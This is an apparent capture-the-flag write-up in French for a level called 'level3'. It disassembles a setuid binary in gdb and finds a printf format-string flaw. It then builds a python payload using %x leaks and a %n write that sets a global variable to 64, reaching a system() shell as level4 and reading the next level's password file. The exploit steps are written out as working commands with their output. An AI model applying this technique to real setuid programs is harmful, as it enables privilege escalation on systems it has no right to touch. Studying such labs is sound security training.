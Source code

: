 # Level3

> login:password -> *`level3:492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02`*
```
:~$ su level3
Password:492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```
---

```
:~$ pwd
/home/user/level3
```

```
:~$ ls -la
total 17
dr-xr-x---+ 1 level3 level3   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level3 level3  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level3 level3 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level4 users  5366 Mar  6  2016 level3
-rw-r--r--+ 1 level3 level3   65 Sep 23  2015 .pass
-rw-r--r--  1 level3 level3  675 Apr  3  2012 .profile
```

Le Home contient un binaire `level3` :

```
:~$ ./level3
(input) test
test

:~$ ./level3 test
(input) test
test
```

Avec ou sans paramètre, le binaire attends un input

```
:~$ gdb level3
...

(gdb) disas main
Dump of assembler code for function main:
   0x0804851a <+0>:	push   %ebp
   0x0804851b <+1>:	mov    %esp,%ebp
   0x0804851d <+3>:	and    $0xfffffff0,%esp
   0x08048520 <+6>:	call   0x80484a4 <v>
   0x08048525 <+11>:	leave  
   0x08048526 <+12>:	ret    
End of assembler dump.

(gdb) disas v
Dump of assembler code for function v:
   (...)
   0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
   (...)
   0x080484d5 <+49>:	call   0x8048390 <printf@plt>
   0x080484da <+54>:	mov    0x804988c,%eax
   0x080484df <+59>:	cmp    $0x40,%eax
   0x080484e2 <+62>:	jne    0x8048518 <v+116>
   0x080484e4 <+64>:	mov    0x8049880,%eax
   (...)
   0x08048507 <+99>:	call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:	movl   $0x804860d,(%esp)
   0x08048513 <+111>:	call   0x80483c0 <system@plt>
   (...)
```

On remarque que le main du binaire appel une fonction `v()` (+6) et que cette derniere appelle plusieurs fonctions dont une fonction `printf()` (+49) vulnerable a exploit par format de chaine de caracteres.

On voit aussi la comparaison `cmp` (+59) de `64` d'une variable globale `0x804988c` (+54), puis si la comparaison passe l'execution de `fwrite()`, mais surtout de `system()`. Afin de passer la condition, il faut determiner la valeur de cette variable.

```
(gdb) info variables
All defined variables:

Non-debugging symbols:
(...)
0x0804988c  m
```

Le nom de la variable c'est `m`, on va donc faire en sorte d'utiliser la vulnerabilite de `printf()` pour en trouver sa valeur avec plusieurs `%x` qui affichera directement l'adresse.

```
:~$ echo "%x %x %x %x %x %x" | ./level3
200 b7fd1ac0 b7ff37d0 25207825 78252078 20782520
```

On va lui ajouter un simple buffer `aaaa` pour voir ou en est ecrit l'adresse, pour ensuite y imprimer l'adresse de notre variable m: `\x8c\x98\x04\x08`

```
:~$ echo "aaaa %x %x %x %x %x %x" | ./level3
aaaa 200 b7fd1ac0 b7ff37d0 61616161 20782520 25207825

:~$ python -c "print '\x8c\x98\x04\x08' + '%x %x %x %x'" | ./level3
�200 b7fd1ac0 b7ff37d0 804988c
```

On a reperer notre buffer en 4e position. A present, on peux utiliser a present un `%n` pour ecrire a l'adresse de notre variable pour en changer sa valeur. L'adresse de `m` est de **4 bytes**, on doit donc ajouter **60 bytes** pour arriver au **64**

```
:~$ python -c 'print "\x8c\x98\x04\x08" + "a" * 60 + "%4$n"' | ./level3
�aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Wait what?!
```

C'est une reussite, on atteint le fwrite qui semble nous afficher `Wait what?!` et donc on peux a present utiliser la fonction `system()`

```
:~$ python -c 'print "\x8c\x98\x04\x08" + "a" * 60 + "%4$n"' > /tmp/level3

:~$ cat /tmp/level3 - | ./level3
�aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Wait what?!
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

